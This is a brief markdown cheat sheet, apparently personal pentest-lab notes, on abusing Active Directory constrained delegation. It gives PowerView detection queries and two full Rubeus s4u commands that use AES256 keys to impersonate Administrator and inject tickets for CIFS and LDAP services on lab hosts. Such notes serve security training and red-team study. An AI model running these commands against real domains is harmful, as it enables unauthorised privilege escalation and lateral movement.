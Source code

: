 # Constrained Delegation


## Index:
  
  1. [Detection](#detection)
  2. [Attack](#attack)

![Constrained delegation](Constrainer_delegation_computer.png )

## Detection
Users:
```
Get-DomainUser -TrustedToAuth | select name, msds-allowedtodelegateto
```
Computers:
```
 Get-DomainComputer -TrustedToAuth | select name, msds-allowedtodelegateto
```
## Attack
Users:
```
C:\AD\Tools\Rubeus.exe s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt
```
computers:
```
C:\AD\Tools\Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:e9513a0ac270264bb12fb3b3ff37d7244877d269a97c7b3ebc3f6f78c382eb51 /impersonateuser:Administrator /msdsspn:TIME/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
```
